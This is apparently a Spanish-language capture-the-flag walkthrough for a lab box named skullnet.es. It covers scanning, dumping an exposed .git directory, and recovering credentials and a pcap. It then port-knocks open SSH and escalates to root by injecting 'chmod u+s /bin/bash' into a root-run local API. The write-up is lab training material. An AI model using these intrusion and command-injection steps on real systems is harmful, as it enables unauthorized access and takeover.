 nmap: 80

![image](https://github.com/user-attachments/assets/bbbb702f-524b-4b3b-9c7e-66352f5a510b)

---
agregamos "skullnet.es" en nano /etc/host y entramos a la pagina

![image](https://github.com/user-attachments/assets/01fa9c26-8511-47e1-8c79-b8ea4e2f6d74)

no hay nada, hacemos un nmap mas profundo en el puerto 80
da un git. quedaría así la búsqueda: http://skullnet.es/.git/

![image](https://github.com/user-attachments/assets/9df19053-5d80-4100-96f7-3ba56452a335)

quedamos donde hay muchos archivos y nos pasamos los archivos a nuestra terminal

![image](https://github.com/user-attachments/assets/324ea04e-2e75-4fa4-a049-594c42842120)

lo pasamos con: 
> wget -r http://skullnet.es/.git/

hacemos un "git log" para ver los archivos modificados y da dos:
> fix y First commit

hacemos un: git checkout -- . 

hacemos otra vez el "git log" y nos copiamos esto: 
>648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

![image](https://github.com/user-attachments/assets/89472b3c-802c-4b15-867c-84493aa96f4f)


colocamos:
>git reset 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

y nos da: 

     - Unstaged changes after reset:
     - D authentication.txt
     - D network.pcap

colocamos "git diff" y vemos los cambios que se han realizado

volvemos hacer un "git checkout -- ." y tenemos los archivos

entramos al authentication.txt y nos da:

     - cat authentication.txt 
     - Hello skulloperator, as you know, we are implementing a new authentication mechanism to avoid brute-forcing...
     - This credential and the attached network file will be enough. I know you will get it ;)
     - +%7nj^g!DQxp]a>c4v&0

el final del resultado de esos paso: 

![image](https://github.com/user-attachments/assets/116bd170-09b3-4adb-97df-ea62674730e1)


la ultima es una posible contraseña, pero igual tenemos el archivo de red adjuntado que es el "network.pcap" que es un wireshark
lo abrimos: wireshark network.pcap

abrirá wireshark con las reglas capturadas y las revisaremos

las primeras 5 peticiones son mas color gris y hace peticiones en los puertos:
> 1000, 12000, 5000, 22 y 38118
> 
![image](https://github.com/user-attachments/assets/61641d93-d894-4b88-bdd1-d82df150a6ad)


como el puerto 22 esta cerrado hacemos un: 

     knock -v 172.18.0.2 1000 12000 5000 -d 4

se abrirá el puerto 22 y tenemos el usuario como contraseña que menciono antes: 
> skulloperator / +%7nj^g!DQxp]a>c4v&0

y estamos dentro

![image](https://github.com/user-attachments/assets/751206d3-a53e-4c66-b70c-97520bfa2b35)

ahora escalamos

al hacer un sudo -l o find, no muestra nada

al hacer un "ps -faux" muestra que se ejecuta un "cron -P" donde se ejecuta un archivo : 
>bin/sh -c python3 /var/www/skullnet.es/skullnet_api.py
>
![image](https://github.com/user-attachments/assets/39bf88d3-a708-47ee-8b38-85e850f3d675)


ingresamos a la ruta, entramos con nano al skullnet_api, pero no tenemos permisos de escritura pero si de lectura

dentro muestra que se abre un puerto 8081 que dentro se pueden ejecutar comando como "ls" o "whoami" y para que funcione se tiene que mandar un token de autorización que nos permita ejecutar y dentro hay una "AUTH_KEY_BASE64 = "d2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA=="
"
![[nano1.png]]

lo sacamos con:

    echo 'd2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA=' | base 64 -d 

>nos da: we_are_bones_513546516486484

![image](https://github.com/user-attachments/assets/b0052559-89ea-4203-82a5-c8878bf8f1bd)


en el código aparece que hay que iniciar con una palabra que comience por "basic"

ejecutamos el comando:

    curl 127.0.0.1:8081?exec?=whoami -H "authorization: Basic we_are_bones_513546516486484"

ahora en el terminal victima hacemos un: 
 
    curl 127.0.0.1:8081?exec=whoami -H "Authorization: Basic we_are_bones_513546516486484"

>que nos mostrara: root

![image](https://github.com/user-attachments/assets/17b3323e-ccb5-4f3f-8985-f7d18390168b)

seguimos probando aparte del whoami, mandamos un id para esta pagina: https://www.urlencoder.org/

quedaría: whoami%3Bid

y ahora quedaría así: 

    curl 127.0.0.1:8081?exec=whoami%3Bid -H "Authorization: Basic we_are_bones_513546516486484"

que nos da los grupos con el id

![image](https://github.com/user-attachments/assets/f40edb7f-efa0-458f-8859-6703161115c9)


ya que funciona le intentamos dar permisos así:
> whoami;chmod u+s /bin/bash

y quedaría así el código: 

    curl 127.0.0.1:8081?exec=whoami%3Bchmod%20u%2Bs%20%2Fbin%2Fbash -H "Authorization: Basic we_are_bones_513546516486484"

lo lanzamos aparece solo root, vemos si cambio los permisos 
> ls -ls /bin/bash

ahora aparece en rojo, lanzamos un bash -p
![[rootfinal.png]]
y somos root! 

